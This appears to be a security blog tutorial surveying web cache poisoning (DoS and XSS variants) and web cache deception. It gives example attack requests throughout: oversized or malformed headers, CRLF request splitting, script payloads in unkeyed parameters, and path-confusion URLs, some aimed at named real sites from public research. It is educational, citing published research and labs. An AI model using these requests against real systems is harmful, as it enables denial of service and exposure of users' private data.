

Good day! I hope you're doing well.

I've been studying web cache vulnerabilities, so here's a shortcut through all the different techniques I've come across so far. I'll assume you already have a basic understanding of web caching concepts.

الحمدلله والصلاة والسلام على رسول الله

Obviously, the cache itself isn't a vulnerability. What makes web applications vulnerable to web cache attacks is either chaining them with other bugs (most often XSS) or abusing misconfigurations to launch a Denial-of-Service (DoS) attack on the site.

## Poisoning and Deception: Web Cache Vulnerabilities Explained

Let's start with web cache poisoning. The key to basic Web Cache Poisoning (WCP) is to manipulate a value that is **not** included in the cache key. Anything **excluded** from the cache key becomes part of our attack surface.

Before diving into the techniques, we need to understand how the target implements caching — which headers, parameters, and HTTP methods are actually part of the cache key, and which are not. I'll split the attacks into two main categories:

- **Web Cache Poisoning DoS (CP-DoS)**
- **Web Cache Poisoning with harmful payloads**


## Web Cache Poisoning DoS

### 1. HTTP Header Oversize (HHO)

The goal is to send a request with a large header. The key factor: the cache must accept a larger header size than the origin server. So we send a GET request with a header larger than the origin supports but smaller than what the cache allows. The cache forwards it normally, but the origin returns an error status — and the cache stores that error for the original request.

```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Header: Big-Value-000000000000000

HTTP/1.1 400 Bad Request
Cache: hit
```

Here we poisoned `GET / HTTP/1.1` with a bad-request page.

### 2. HTTP Meta Character (HMC)

Instead of a large header, we send a header containing harmful meta characters such as `\n` and `\r`. For the attack to work you must bypass the cache first.

```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Header: Bad Chars\n \r

HTTP/1.1 400 Bad Request
Cache: hit
```

### 3. HTTP Method Override (HMO)

This abuses headers supported by some web servers, such as `X-HTTP-Method-Override`, `X-HTTP-Method`, or `X-Method-Override`. If the server allows method overriding, it processes the request based on the override header instead of the original method.

```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST

HTTP/1.1 404 Not Found
Cache: hit
```

### 4. Unkeyed Port

This happens when the port in the Host header is reflected in the response and is not part of the cache key.

```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```

Once this is cached, any request to `/index.html` gets redirected to a dead port, the browser times out, and users are effectively blocked from the resource.

### 5. Redirect DoS

One of the poisoning tricks highlighted in James Kettle's research — and my favorite, because it hit the Cloudflare login page. Suppose the **query string** isn't in the cache key:

```
GET /login?x=abc HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=abc
```

Since `?x=abc` isn't part of the cache key, we abuse it with a very long query string:

```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit
```

Then, following the redirect:

```
GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```

The `GET /login` page is now poisoned with an error response.

### 6. Unkeyed Header

Some sites return an error if they see certain headers. On one well-known site, a request with `X-Amz-Website-Location-Redirect: something` returned `403 Forbidden` — and it worked on all static pages.

```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: something

HTTP/2 403 Forbidden
Cache: hit
```

Now anyone requesting `/app.js` receives the 403 page. I reported this; two weeks later it was closed as Out-of-Scope DoS :)


### 7. Host Header Case Normalization

The Host header should always be case-insensitive, but some sites lowercase it — leading to a potential DoS.

```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache: miss
```

The capital letter in `Cdn.redacted.com` triggers the error that ends up blocking the request.

### 8. Path Normalization

Consider this request:

```
GET /api/v1.1/user HTTP/1.1
Host: redacted.com

HTTP/1.1 200 OK
```

URL-encoding part of the path (e.g. encoding `.` as `%2e`) might make the server generate an error:

```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com

HTTP/1.1 404 Not Found
Cache: miss
```

### 9. Invalid Headers CP-DoS

From Youst's writeup: sending a request to a GitHub repo with an invalid `Content-Type` value returned an error status.

```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld

HTTP/2 406 Not Acceptable
Cache: miss
```

### 10. HTTP Request Splitting

The last CP-DoS, from Sergey Bobrov — abusing CRLF injection to trick the cache into storing an error page.

```
GET /redir_lang.jsp?lang=foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20404%20Not%20Found%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2019%0d%0a%0d%0a<html>NotFound</html>
```

This produces the following output stream from the server:

```
HTTP/1.1 302 Moved Temporarily
Location: http://10.1.1.1/by_lang.jsp?lang=foobar
Content-Length: 0

HTTP/1.1 404 NotFound
Content-Type: text/html

<html>NotFound</html>
```

The cache sees the response to `GET /redir_lang.jsp` as `404 Not Found` and caches it.

> One technique I tried was sending a request with very long cookies to trigger an error at the origin and then cache that error page. I tried it on a few sites and it didn't work — feel free to try it, or share it if you've done something similar.

### Conclusion (CP-DoS)

The cache sees nothing wrong with the request, but the origin classifies it as malicious and returns an error, which the cache then stores. This works only when the cache is configured to cache error status codes — so the best defense is simply not to cache them.

## Web Cache Poisoning with Harmful Payloads

### 1. Unkeyed Query

Find an unkeyed query that's vulnerable to XSS, so the page gets cached with your payload.

```
GET /?unkeyedParam=<script>alert(1)</script> HTTP/1.1
Host: redacted.com

HTTP/1.1 200 OK
Cache: hit
```

PortSwigger lab: <https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-query> (the same idea applies to an unkeyed cookie).

### 2. Unkeyed Method

Suppose you have a POST-based XSS:

```
POST /add_title HTTP/1.1
Host: redacted.com
Content-Length: 31

title=<script>alert(1)</script>
```

If the GET method is unkeyed, you can poison the cache by switching the request to GET.

### 3. Fat GET

Sometimes a site supports GET requests with a body. A great bug by James Kettle on GitHub:

```
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```

Anyone reporting abuse on the `albinowax` profile would end up reporting `innocent-victim` instead. I also noticed Cloudflare's CDN blocks GET requests with a body — which can be abused to cache the resulting 403 page (another CP-DoS).

PortSwigger lab: <https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get>

### 4. Cache Parameter Cloaking

What if all parameters are in the cache key? Find one query parameter that's excluded from it. For example, a cache that excludes `utm_content`. Ruby on Rails splits parameters on the semicolon (`;`), so an attacker can send two requests that share the same cache key:

```
GET /?title=Hello;utm_content=something;title=<script>alert(1)</script> HTTP/1.1
Host: redacted.com

HTTP/1.1 200 OK
Cache: miss
```

PortSwigger lab: <https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking>


## Web Cache Deception (WCD)

More than 74% of the Alexa top 1k are served by a CDN. WCD results from path confusion between an origin server and a web cache. The goal is to cache pages that contain sensitive information. To exploit it, craft a URL that satisfies two properties:

1. The origin server interprets it as a request for a **non-cacheable** page and returns a successful response.
2. An intermediate web cache interprets the **same** URL as a request for a static object matching its caching rule.

Four common path-confusion techniques:

```
GET /account.php/style.css        # path parameter
GET /account.php%0Astyle.css      # encoded newline
GET /account.php%3Bstyle.css      # encoded semicolon
GET /account.php%23style.css      # encoded pound
GET /account.php%3Fvar=style.css  # encoded question mark
```

I also read a great path-confusion writeup where the site had a caching rule like `/blog/*`, and the hunter exploited it with:

```
GET /blog/%2F../account.php
```

## The End

That covers the key aspects of web cache attacks. Let me know if you have questions or if I missed anything.

## Resources

- James Kettle — [Web Cache Entanglement: Novel Pathways to Poisoning](https://portswigger.net/research/web-cache-entanglement)
- James Kettle — [Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)
- Youst — [Cache Poisoning at Scale](https://youst.in/posts/cache-poisoning-at-scale/)
- Youst — [Cache Key Normalization DoS](https://youst.in/posts/cache-key-normalization-denial-of-service/)
- [CPDoS: Cache Poisoned Denial of Service](https://cpdos.org/)
- Sergey Bobrov — [Divide and Conquer: HTTP Response Splitting](https://packetstormsecurity.com/files/32815/Divide-and-Conquer-HTTP-Response-Splitting-Whitepaper.html)
- Omer Gil — [Web Cache Deception Attack](https://omergil.blogspot.com/2017/02/web-cache-deception-attack.html)
- Usenix — [Cached and Confused: Web Cache Deception in the Wild](https://www.usenix.org/conference/usenixsecurity20/presentation/mirheidari)
